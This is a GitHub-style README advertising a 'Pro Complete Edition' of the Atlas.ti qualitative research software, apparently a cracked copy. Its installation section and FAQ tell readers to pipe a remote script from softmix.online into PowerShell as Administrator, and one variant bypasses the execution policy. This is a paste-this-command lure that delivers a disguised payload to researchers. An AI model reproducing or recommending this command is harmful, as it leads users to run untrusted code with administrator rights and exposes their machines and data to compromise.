

<div align="center">


<br>


# Atlas.ti Qualitative Analytics Pro Complete Edition
**Qualitative coding · Themes · Team review**
<br>
**Qualitative coding · Themes · Team review**
<br>
Professional · Enterprise · Complete · Windows



**Atlas.ti Pro — qualitative coding, memos, team review and visualization tools all enabled.**

</div>

---

> Code interviews and build theory — Atlas.ti pro qualitative toolkit enabled for social researchers.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

📊 **Statistical analysis** — Pro analytics and charting enabled.
📈 **Research workflow** — Reporting and export tools included.
📦 **Local desktop suite** — Works offline after setup.
🖥️ **Windows optimized** — Built for lab and academic PCs.
📋 **Complete toolkit** — Templates and datasets supported.
⚙️ **Pro modules** — Premium research features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 3 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 3 gb free space.
</details>


TAGS
atlas-ti, atlasti, qualitative-research, qualitative-analysis, thematic-analysis, research-software, interview-analysis, coding-software, social-science, qualitative-data, atlas-ti-software, grounded-theory, content-analysis, research-analysis, qda-software
